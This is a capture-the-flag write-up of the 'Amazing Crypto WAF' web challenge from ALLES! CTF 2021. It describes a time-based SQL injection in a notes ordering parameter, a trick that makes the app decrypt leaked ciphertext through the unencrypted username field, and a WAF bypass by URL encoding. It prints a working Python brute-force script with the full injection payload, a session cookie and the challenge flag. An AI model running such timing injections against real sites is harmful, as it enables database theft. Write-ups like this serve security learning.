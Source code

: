 ```yaml
---
layout: post
title: Amazing Crypto WAF
category: ALLES! CTF 2021
---
```


So last week I was able to play for a few hours with my team, once [Super Gusser](https://ctftime.org/team/130817/),  I joined Discord and found that already half of the web challenge siced :D ,  I chose this challenge as a start and my teammate [sapra](https://twitter.com/0xsapra) also joined.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334574-a2d19944-8a0e-4c2f-b549-4335e6aa067a.png" alt="main" >

First the challenge was very simple, you can create an account / log in and you can also post some notes.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334741-9024bcb3-221b-4816-9ae2-af0cc5520123.png" alt="main" >

Based on all of this and checking the source code which was a good hint for us rather than blindly trying to check all kinds of possible bugs :) .

Later, after reading the code and checking, `sapra` mentions that there is a possible SQL injection which was a time based SQLi in notes function..

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335060-2ffb3b5a-ce02-4f6f-b807-a2fb04b46e9a.png" alt="main" >

basically we can inject after `order by timestamp`, using this sqli we can leak all data on sqlite database including the flag (the flag was located in the` flagger` account note)

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335349-f515758e-69bf-4164-8207-bc0ab3059ad3.png" alt="main" >

But !! if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336000-7684f027-e9c4-4675-aac7-c823c074d2e4.png" alt="main" >

So the issue here, how we can decrypt the flag, even though we can leak it, as the encryption is strong enough and can't be exploited, which means the only way is to find out how we can make the app decrypt the flag for us

The real problem is that if we post a note with the flag leaked, it will be encrypted again and decrypted once, which means we won't be able to get the clear text, but there was a weakness in the code, exactly in the encryption function

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336496-33f556af-b438-44d7-ab7c-fb6bc8e3f32d.png" alt="main" >

As the application does not encrypt `'uuid', 'id', 'pk', 'username', 'password'` and it does store it in plaintext, we can use this part and create an account with username as encrypted flag and once we are logged in the flag will be decrypted as the app decrypts all content of the response

```
response_data = decrypt_data(proxy_request.content)
```

So what's left here is just leak the flag and decrypt it, but the last step was to bypass the easy waf that detects certain words.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336897-499aeed0-6b69-4d82-bdbd-2d7b9fa23290.png" alt="main" >

Using a simple encoding can do the job here, which means we have all the steps we need :)

1 - `Leak "flagger" account notes ( flag note )`

2 - `Create an account using flag as username`

3 - `Read the flag from the home page`


```
import requests
import time

cookies = {
    'session': '116c6bf2d2de45a8d4a1bdac5524fc01.b810785f36c37cc8d4cf48b55c0e45716dd7ccb38f80ac19a08f2a41371711a',
}
#ENCRYPT:SzJEVHVzRmhHaHZmU2pYak0yQVZzQT09OmUzOVBwcXNVWWdhMEw0YXpCVDV2WHRwYnBPRXFaSVpqMFpQRk1BMXNzODE1UGxIUXhwb0hLY2diNGd2VTRYYz06REpPTWk0S01pdmZ3cXVxNFBGcklTdz09
flag_enc = "ENCRYPT:"

pos = len(flag_enc) + 1

for x in range( pos, 200 ):
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/=":
        t1 = time.time()
        url = "https://7b000000c73b13b1628e0950-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=asc,(CASE%20WHEN%20(select%20substr((select%20body%20from%20notes%20where%20user=(select%20uuid%20from%20users%20where%20username='flagger'))," + str(x) + ",1)%20=%20'" + str(i) + "')%20THEN%2012=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))%20ELSE%20timestamp%20END)%20desc%23"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 0.9:
            flag_enc += i
            break        
    print flag_enc
```

And here is the FLAG : `ALLES!{American_scientists_said,_dont_do_WAFs!}`

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132345085-727ea1ae-5177-4d63-aa78-d4a8082a59b5.png" alt="main" >


